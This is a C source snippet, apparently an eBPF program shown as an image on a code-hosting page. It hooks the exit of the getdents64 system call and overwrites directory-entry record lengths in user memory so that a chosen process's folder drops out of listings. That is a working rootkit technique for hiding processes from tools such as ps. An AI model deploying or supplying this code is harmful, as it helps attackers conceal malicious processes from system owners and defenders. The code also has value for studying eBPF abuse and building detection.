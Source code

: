```c
SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_patch(struct trace_event_raw_sys_exit *ctx)
{
    // Only patch if we've already checked and found our pid's folder to hide
    size_t pid_tgid = bpf_get_current_pid_tgid();
    long unsigned int* pbuff_addr = bpf_map_lookup_elem(&map_to_patch, &pid_tgid);
    if (pbuff_addr == 0) {
        return 0;
    }

    // Unlink target, by reading in previous linux_dirent64 struct,
    // and setting it's d_reclen to cover itself and our target.
    // This will make the program skip over our folder.
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp_previous = (struct linux_dirent64 *)buff_addr;
    short unsigned int d_reclen_previous = 0;
    bpf_probe_read_user(&d_reclen_previous, sizeof(d_reclen_previous), &dirp_previous->d_reclen);

    struct linux_dirent64 *dirp = (struct linux_dirent64 *)(buff_addr+d_reclen_previous);
    short unsigned int d_reclen = 0;
    bpf_probe_read_user(&d_reclen, sizeof(d_reclen), &dirp->d_reclen);

    // Debug print
    char filename[max_pid_len];
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp_previous->d_name);
    filename[pid_to_hide_len-1] = 0x00;
    bpf_printk("[PID_HIDE] filename previous %s\n", filename);
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp->d_name);
    filename[pid_to_hide_len-1] = 0x00;
    bpf_printk("[PID_HIDE] filename next one %s\n", filename);

    // Attempt to overwrite
    short unsigned int d_reclen_new = d_reclen_previous + d_reclen;
    long ret = bpf_probe_write_user(&dirp_previous->d_reclen, &d_reclen_new, sizeof(d_reclen_new));

    // Send an event
    struct event *e;
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e) {
        e->success = (ret == 0);
        e->pid = (pid_tgid >> 32);
        bpf_get_current_comm(&e->comm, sizeof(e->comm));
        bpf_ringbuf_submit(e, 0);
    }

    bpf_map_delete_elem(&map_to_patch, &pid_tgid);
    return 0;
}

```
